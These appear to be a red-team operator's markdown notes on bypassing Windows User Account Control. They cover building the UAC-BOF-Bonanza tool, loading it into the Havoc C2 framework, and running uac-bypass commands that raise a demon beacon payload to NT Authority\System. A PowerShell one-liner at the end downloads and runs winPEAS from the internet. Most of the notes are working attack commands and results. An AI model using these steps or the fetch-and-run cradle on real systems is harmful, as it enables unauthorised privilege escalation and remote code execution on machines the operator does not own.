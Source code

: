 # UAC - User Account Control (Privilege Escalation)

MITRE Reference

![image](./images/uac_mitre.jpg)

Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
